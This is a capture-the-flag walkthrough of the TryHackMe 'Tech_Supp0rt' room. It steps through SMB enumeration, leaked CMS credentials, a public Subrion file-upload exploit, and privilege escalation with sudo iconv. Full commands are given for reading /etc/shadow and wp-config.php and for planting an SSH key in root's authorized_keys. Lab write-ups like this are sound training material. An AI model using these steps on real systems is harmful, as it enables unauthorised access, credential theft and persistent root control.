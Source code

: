 # Tech_Supp0rt: 1 

![TechSupport Room Image](https://tryhackme-images.s3.amazonaws.com/room-icons/4128774917fae71184e79acab2007e93.png)


## Hack into the machine and investigate the target.

I started of this challenge by running an nmap scan and also ran a gobuster scan.
```
nmap -sV -sC <IP_Machine>
```
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u <IP_Machine>
```
The nmap scan came back and I quickly noticed that there was an smb server present.

Host Scripts Results:

account_used: guest

authentication_level: user

After many failed attempts of trying to make the credentials work with 
the smbclient command.. I searched online and found a command to connect.

```
smbclient //<Machine_IP>/websvr
```

Here I was into the smb server client
From here I used an 'ls' command and saw that there was an 'enter.txt' file.
I used a 'get' command to download the file onto my host machine.
After I opened the file on my machine it read:
______________________________________________________________________
```
Goals
=====
1)Make fake popup and host it online on Digital Ocean server

2)Fix subrion site, /subrion doesn't work, edit from panel

3)Edit wordpress website

IMP
===
Subrion creds

|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

Wordpress creds

|->
```
_______________________________________________________________________

Reading this file I saw that the 'subrion/' looked like a directory on the webpage. 
There also seemed to be a username and password. (If you put the password into
cyberchef and cook it with the magic decryption.. it comes out to 'Scam2021')

I tried to put the subrion/ onto the end of browser search and came 
up with a directory along with a /robots.txt after it.

http://<IP_Machine>/subrion/robots.txt
resulted with these directories >> 
______________________________________________________________________
User-agent: *

Disallow: /backup/

Disallow: /cron/?

Disallow: /front/

Disallow: /install/

Disallow: /panel/

Disallow: /tmp/

Disallow: /updates/
_________________________________________________________________________

I tried to input all of these and the one that looked most interesting
was the '/panel/' page because I already had a username and a password.

After logging in it appeared I could be able to run an exploit and get a shell on this machine.
There was a version that I could see as Subrion CMS
v 4.2.1

I found an exploit on 'exploit-db' which seemed to match the same version called 
Subrion CMS 4.2.1 - Arbitrary File Upload 

When trying to run the exploit I got an error tha looked like this :

```
Traceback (most recent call last):
  File "49876.py", line 19, in <module>
    from bs4 import BeautifulSoup
ModuleNotFoundError: No module named 'bs4'
```
I then installed BeauttifulSoup using https://pypi.org/project/beautifulsoup4/

```
pip2 install beautifulsoup4
```

After installing.. I ran the command again with the username (-l) and password (-p)
like so--->

```
python3 49876.py -u http://10.10.198.19/subrion/panel/ -l admin -p Scam2021
``` 
AND I GOT A SHELL ^-^
Here I searched for /etc/passwd file 

```
cat /etc/passwd
```
I noticed that there was a directory to 'scamsite' and also knew that the site was powered
by wordpress so I could be able to run a cat command using this in the shell.

```
cat /var/www/html/wordpress/wp-config.php
```

Here I got access to the file and was able to find a password 

```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I then ran ssh to connect to the website using the password I found
in the database.

```
ssh scamsite@<IP_Machine>
```
And then I was connected to 'scamsite@TechSupport'
I then checked for permissions. 

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/iconv
```

Once I saw that we had privilege here.. I went to GTFO bins and 
searched for permissions. I searched iconv and used -->

```
LFILE=file_to_read   
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Then I imput the path I wanted to use

```
LFILE=/etc/shadow   
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This gave me the shadow file. I then ran another command
This time using -->

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And I got the root.txt flag

This wasn't the end as I wanted to get to the root user.
On my machine I generated a public and private key.

```
ssh-keygen
```

I copied the public key and put it onto the attacking machine

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXAr00dvELBb43yeqP1kKlKcmJfiF5Kf4FXmHUwr17wwEpl
yP4jvjCS1uyW4Wrz+Bu1htWrW5NoiBwbR6BZqzXjlJKDVH3vKI2DvoQRLyvsdG+h7CmtszATI/zkLIL9kSfoVlXtWpNaN/9Ay8
/rQISsgsMdERPq/o6aatQF0KEtBPOW6+/TuwY9iFujfK56veQkDiolVN+BXSbz//HIzFyC1Tf8dnjBXVDEfHqicuW
50uuJq0Haj6ZETCWk0r/BOUCD28R2AFbqRd2z1RTCThSMzpoBKHeDTLqpc1z4ebpVlk0DL2DzMzCLKAa
kWe/CVAn7jzHfiVmQ5SwhF7NVSCV lotus@<<Machine_IP>" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys  
```

I then used the key pair to log onto the root user.

```
ssh root@<attacking_ip> -i tech_support
```

And finally I was root ^_^.

